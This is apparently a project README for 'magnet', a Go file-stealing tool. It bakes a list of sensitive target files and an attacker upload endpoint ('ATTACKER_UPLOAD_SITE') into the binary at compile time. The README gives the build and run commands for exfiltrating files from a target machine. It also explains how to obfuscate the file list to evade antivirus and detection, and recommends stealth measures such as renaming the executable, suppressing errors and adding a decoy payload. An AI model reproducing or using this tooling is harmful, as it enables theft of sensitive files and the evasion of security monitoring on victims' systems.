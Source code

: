 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=[YOUR_SECRET_KEY]
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Obfuscation/Encryption

As you can see, it uses <code>linux_juicy_files_<b>obfuscated.txt</b></code>. To avoid detection system, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
./list_obfuscator $KEY [FILE]
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
